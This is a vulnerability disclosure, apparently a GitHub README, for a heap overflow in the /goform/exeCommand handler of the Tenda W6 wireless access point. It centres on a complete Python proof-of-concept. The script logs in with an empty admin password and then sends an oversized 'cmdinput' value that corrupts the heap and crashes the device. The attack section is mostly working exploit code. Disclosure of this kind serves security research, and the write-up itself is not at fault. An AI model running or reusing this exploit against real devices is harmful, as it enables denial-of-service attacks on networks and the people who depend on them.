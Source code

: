 # Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process

![image-20220707155204309](pic/image-20220707155204309.png)

A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *



burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video]("./video/Tenda W6 堆溢出漏洞.mp4")
